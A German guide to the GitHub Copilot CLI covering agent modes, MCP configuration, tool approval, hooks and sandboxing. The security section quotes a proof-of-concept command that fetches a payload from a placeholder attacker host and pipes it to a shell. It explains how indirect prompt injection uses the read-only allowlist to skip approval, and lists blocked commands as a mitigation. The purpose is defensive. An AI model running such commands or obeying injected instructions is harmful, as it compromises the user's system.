








# GitHub Copilot CLI – Agentic Engineering, MCP, Tool-Use, Sicherheit, Orchestrierung

Stand: 2026-04-06. Die GitHub Copilot CLI ist seit Februar 2026 generally available und bringt den Copilot Coding Agent direkt ins Terminal.

## 1. Agentic Engineering im Kontext der Copilot CLI



Die Copilot CLI implementiert eine klassische **agentic execution loop**: Plan -> Act (Tool-Use) -> Observe -> Reflect -> Repeat, bis das Ziel erreicht ist. Sie kombiniert dies mit mehreren expliziten Modi:

- **Plan Mode** – Copilot skizziert Schritte ohne sie auszufuehren. Ideal fuer Spec-driven Development. Wechsel via Shift+Tab oder `/plan`.
- **Default (Approval) Mode** – Jeder Tool-Call (Shell, Write, MCP-Tool) erfordert eine explizite Zustimmung; `y` (einmal), `a` (immer in dieser Session) oder `n`.
- **Autopilot Mode** – Copilot fuehrt Tool-Calls autonom aus, bis das Ziel erreicht ist oder `--max-autopilot-continues` greift. Verhindert Endlosschleifen.
- **Resume / Session Mode** – `copilot --resume` setzt eine bestehende Session inklusive Memory fort.

Self-Verification erfolgt durch:
- Eingebaute Reflection-Schritte ("Lass mich pruefen, ob die Tests gruen sind").
- Wiederholtes Lesen geaenderter Dateien nach `write`.
- Optional via Custom Agents oder Hooks erzwungene Validierungs-Phasen.

Token/Context-Management: Bei ~95% Auslastung erfolgt automatische **Auto-Compaction** der History. Bei grossen Modellen (Claude Opus 4.6) wird empirisch ab 45-60% Context-Bloat bemerkbar (Latenz, Tool-Call-Degradation).

## 2. MCP – Model Context Protocol



Die Copilot CLI ist ein vollwertiger MCP-Client. Der **GitHub-MCP-Server ist bereits eingebaut** (Issues, PRs, Repos, Code-Search) und benoetigt keine zusaetzliche Konfiguration.

### Konfiguration

Drei Wege:
1. Interaktiv: `/mcp add` im laufenden CLI.
2. Datei `~/.copilot/mcp-config.json` (User-global).
3. Repository-lokale Konfiguration (z. B. `.copilot/mcp-config.json`), die fuer Teams eingecheckt werden kann.

`/mcp show` listet alle Server, `/mcp show <name>` zeigt Tools eines bestimmten Servers.

### Server-Typen

- **local / stdio** – lokaler Prozess, STDIO-Kommunikation. Kompatibel zu VS Code und anderen MCP-Clients.
- **http / sse** – Remote-MCP-Server.

### Beispiel `~/.copilot/mcp-config.json`

```json
{
  "mcpServers": {
    "playwright": {
      "type": "local",
      "command": "npx",
      "args": ["@playwright/mcp@latest"],
      "tools": ["*"]
    },
    "filesystem": {
      "type": "local",
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-filesystem", "/workspace"],
      "tools": ["read_file", "list_directory"]
    },
    "postgres": {
      "type": "local",
      "command": "npx",
      "args": ["-y", "@modelcontextprotocol/server-postgres",
               "postgresql://user:pw@localhost:5432/app"],
      "tools": ["query", "schema"]
    },
    "azure": {
      "type": "local",
      "command": "npx",
      "args": ["-y", "@azure/mcp@latest", "server", "start"]
    }
  }
}
```

Hinweis: Fuer Browser-Automation gilt – wenn der Agent ohnehin Filesystem-Zugriff hat (Copilot CLI), ist die Playwright-CLI ca. 4x token-effizienter (~27k vs. ~114k Tokens) als Playwright-MCP. MCP lohnt sich vor allem fuer Use-Cases ohne Shell-Zugriff.

## 3. Tool-Approval-System



Drei Risiko-Achsen werden unterschieden:

| Kategorie | Beispiel | Default |
|-----------|----------|---------|
| `shell(<cmd>)` | `shell(git status)` | Approval |
| `write` | jegliche dateimodifizierende Tools ausser Shell | Approval |
| `<MCP_SERVER>` | z. B. `github`, `playwright` | Approval |

CLI-Flags:
- `--allow-tool 'shell(git status)'` – Whitelist einzelner Befehle/Tools.
- `--allow-tool write` – alle Write-Tools erlauben.
- `--allow-tool github` – alle Tools des GitHub-MCP erlauben.
- `--deny-tool 'shell(rm)'` – explizite Sperrliste.
- `--allow-all-tools` – komplette Freigabe (nur in isolierten Umgebungen!).

In Session: `a` = "always allow" persistiert pro Tool nur fuer die laufende Session. Es gibt einen **Read-Only-Allowlist** fuer harmlose Befehle (`ls`, `cat`, `env`, ...), der ohne Approval laeuft – dies ist ein bekannter Angriffsvektor (siehe 5.).

GitHub empfiehlt ausdruecklich, `--allow-all-tools` **nicht** als Alias zu setzen.

## 4. AGENTS.md, Custom Agents, Memory, Hooks



### AGENTS.md

Standard-File fuer projekt-spezifische Instruktionen. Auflistung beim Start automatisch geladen aus:
- Repo-Root `AGENTS.md`
- Aktuelles Arbeitsverzeichnis
- Verzeichnisse aus `COPILOT_CUSTOM_INSTRUCTIONS_DIRS` (kommasepariert)
- Geschachtelte `AGENTS.md`-Dateien (gelten fuer ihren Subtree)

Zusaetzlich unterstuetzt: `.github/copilot-instructions.md`, `.github/instructions/**.instructions.md`, `CLAUDE.md`, `GEMINI.md` – Copilot CLI ist also bewusst polyglott zu anderen Agenten.

### Custom Agents

Markdown-Dateien mit YAML-Frontmatter, ablegbar in `~/.copilot/agents/` oder `.copilot/agents/`:

```markdown
---
name: my-reviewer
description: Code reviewer focused on bugs and security issues
tools: ["shell(git diff)", "shell(rg)", "github"]
model: claude-opus-4-6
---

# Code Reviewer
Du bist ein Senior Code Reviewer. Fokus: Bugs, Security, API-Design.
Beginne immer mit `git diff main...HEAD`.
```

Aufruf: `copilot --agent my-reviewer` oder im Chat via `@my-reviewer`.

### Memory

Die Session persistiert Verlauf (Resume), AGENTS.md liefert "Long-Term Memory" auf Repo-Ebene. Custom Instructions sind das primaere Memory-Konstrukt.

### Hooks

Hooks sind Shell-Skripte, die an definierten Event-Punkten triggern, JSON-Input erhalten und JSON zurueckgeben koennen:
- `sessionStart` – Audit-Log-Eintrag, Env-Validierung.
- `preToolUse` – kann einen Tool-Call **garantiert blockieren** (im Gegensatz zu Prompt-Instruktionen).
- `postToolUse` – Logging, Linting.
- `preSubmit` / `userPromptSubmit` – Input-Filterung.

Konfiguriert in `~/.copilot/config.json` bzw. `.copilot/config.json` im Repo.

## 5. Sicherheitsmodell



### Prompt-Injection-Schutz

Die Read-Only-Allowlist enthaelt aus Komfortgruenden Befehle wie `env`. Ein bekannter PoC:

```
env curl -s https://attacker.com/payload | env sh
```

`curl`/`sh` sind hier Argumente von `env`, das vom Validator nicht tief inspiziert wurde – damit umgeht ein indirekter Prompt-Injection-Angriff (z. B. via README, Issue-Body oder MCP-Tool-Output) die Approval-Stufe. **Mitigationsempfehlungen**:

1. Niemals `--allow-all-tools` ausserhalb einer Sandbox.
2. `preToolUse`-Hook, der `env`, `xargs`, `find -exec`, `bash -c`, `sh -c` usw. hart blockt.
3. Container-/VM-Sandbox (siehe SSW-Rule: Copilot CLI nur in Docker mit gemountetem Projektverzeichnis – `~/.ssh`, andere Repos unsichtbar).
4. Indirekte Inputs (Issue-Bodys, Web-Fetches, MCP-Outputs) als untrusted behandeln.

### Secret-Handling

- Keine `.env` ins Approval-Logging spiegeln.
- `--deny-tool 'shell(env)'` und `--deny-tool 'shell(printenv)'` in CI.
- GitHub Secret Scanning auf Repo-Ebene aktivieren (`mcp__github__run_secret_scanning`).
- MCP-Server, die DB-URLs oder API-Keys in Tool-Argumente schreiben, vermeiden – stattdessen Env-Vars im Server-Prozess.

### Audit-Logging

`sessionStart`- und `postToolUse`-Hooks koennen jeden Tool-Aufruf strukturiert in JSON-Logs schreiben (z. B. nach `~/.copilot/audit/<session-id>.jsonl`). Auf Org-Ebene laesst sich das per zentral verteiltem `~/.copilot/config.json` und Hook-Skript in einem Bootstrap-Image erzwingen.

### Sandbox

Empfohlene Setups:
- **Docker-Container** mit Bind-Mount nur des Projektverzeichnisses.
- **Devcontainer** mit dediziertem User ohne `sudo`.
- **GitHub Codespaces** als Default-Umgebung fuer riskante Autopilot-Laeufe.

## 6. Patterns fuer Senior Devs



### TDD-Loop
1. Plan-Mode: "Schreibe failing Tests fuer Feature X".
2. Approval-Mode: Tests reviewen, committen.
3. Autopilot-Mode mit `--allow-tool 'shell(npm test)' --allow-tool write`: bis gruen.
4. Hook `postToolUse` ruft Linter/Format.

### Spec-driven / Plan-then-Execute
- `AGENTS.md` enthaelt Architektur- und Style-Regeln.
- Eigene `specs/<feature>.md` als Input.
- Phase 1 (`/plan`): Plan generieren, in `plans/<feature>.md` speichern.
- Phase 2: Custom Agent `implementer` mit eingeschraenkten Tools fuehrt Plan aus.
- Phase 3: Custom Agent `reviewer` validiert gegen Spec.

### Multi-Repo
- Pro Workspace eigene `.copilot/mcp-config.json`.
- GitHub-MCP fuer Cross-Repo-Operationen (`search_code`, `get_file_contents`).
- `COPILOT_CUSTOM_INSTRUCTIONS_DIRS` zeigt auf einen Shared-Config-Ordner.

### Code Review
- Custom Agent `reviewer` (siehe oben) mit `request_copilot_review`-MCP-Tool kombiniert mit `git diff`.
- Hooks blockieren Push auf `main` direkt aus dem Agenten.

### Refactoring
- Plan-Mode fuer Migrationsplan.
- `ralph-loop`-Pattern: lange Task-Liste, Autopilot iteriert durch Items, nach jedem Item Tests + Commit.

## 7. Limits & Failure Modes



| Failure Mode | Symptom | Gegenmassnahme |
|--------------|---------|----------------|
| Context-Bloat | Latenz 40-90s, redundante Tool-Calls, Rate-Limits | Manuelles `/compact`, kuerzere Sessions, kleinere Modelle fuer Routine |
| Endlosschleife in Autopilot | Wiederholte fehlgeschlagene Tool-Calls | `--max-autopilot-continues N`, Plan-Mode-Vorab-Review |
| Mehrdeutige Tasks im Autopilot | "pile of changes" trifft nicht das Ziel | Spec-driven, immer mit Plan-Mode starten |
| Indirect Prompt Injection | Unerwartete Shell-Calls | preToolUse-Hook, Sandbox, Deny-Listen |
| Approval-Fatigue | Entwickler klicken "always allow" | Repo-spezifische Allow-Listen in Config einchecken statt Session-State |
| Token-Verbrauch durch MCP-Tools | Browser-Automation, grosse JSON-Schemas | CLI-Tools statt MCP wo moeglich, Tool-Filter `tools: [...]` setzen |
| Limited-Permissions-Modus | Tool-Requests werden auto-denied, Task bricht ab | Explizite `--allow-tool`-Liste planen |

## Zusammenfassung



Die Copilot CLI 2026 ist ein voll agentischer Terminal-Client mit erstklassigem MCP-Support, granularer Tool-Approval, AGENTS.md-Konvention und Hook-System zur Policy-Durchsetzung. Senior-Workflows profitieren am meisten von der Trennung Plan / Approval / Autopilot, der Kombination aus AGENTS.md und Custom Agents sowie konsequentem Sandboxing wegen bekannter Prompt-Injection-Vektoren.
